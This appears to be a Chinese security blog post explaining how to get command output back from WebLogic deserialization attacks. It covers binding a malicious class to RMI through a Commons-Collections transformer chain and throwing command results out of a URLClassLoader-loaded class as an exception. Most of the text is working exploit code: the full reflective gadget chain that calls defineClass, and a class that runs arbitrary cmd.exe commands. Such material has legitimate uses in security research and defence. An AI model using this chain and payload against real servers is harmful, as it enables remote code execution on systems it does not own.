 ## RMI绑定实例
之前写过一篇 [《Weblogic使用ClassLoader和RMI来回显命令执行结果》](https://xz.aliyun.com/t/7228)，其中提到了使用commons-collection反射调用defineClass，通过defineClass定义的恶意命令执行字节码来绑定RMI实例，接着通过RMI调用绑定的实例拿到回显结果。其中最关键的代码就下面几行

```java
// common-collection1 构造transformers 定义自己的RMI接口
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(DefiningClassLoader.class),
        new InvokerTransformer("getDeclaredConstructor",
            new Class[] { Class[].class }, new Object[] { new Class[0] }),
        new InvokerTransformer("newInstance",
            new Class[] { Object[].class },
            new Object[] { new Object[0] }),
        new InvokerTransformer("defineClass",
            new Class[] { String.class, byte[].class },
            new Object[] { className, classBytes }),
        new InvokerTransformer("getMethod",
            new Class[] { String.class, Class[].class },
            new Object[] { "main", new Class[] { String[].class } }),
        new InvokerTransformer("invoke",
            new Class[] { Object.class, Object[].class },
            new Object[] { null, new Object[] { null } }),
        new ConstantTransformer(new HashSet())
};
```
使用cc链进行反射调用，其中className为恶意命令执行类，形如`com.test.payload.RemoteImpl`，继承自Remote接口的实现，classBytes为该类字节码数组，将该类对象绑定在`rmi://127.0.0.1:1099/Hello`实例上，进而通过JNDI调用Hello即可。

## URLClassLoader抛出异常
通过将回显结果封装到异常信息抛出拿到回显。

首先写一下执行命令的类

```java
import java.io.*;
import java.nio.charset.Charset;

public class ProcessExec {
    public ProcessExec(String cmd) throws Exception {
        InputStream stream = (new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd})).start().getInputStream();
        InputStreamReader streamReader = new InputStreamReader(stream, Charset.forName("gbk"));
        BufferedReader bufferedReader = new BufferedReader(streamReader);
        StringBuffer buffer = new StringBuffer();
        String line = null;

        while((line = bufferedReader.readLine()) != null) {
            buffer.append(line).append("\n");
        }

        throw new Exception(buffer.toString());
    }
}
```
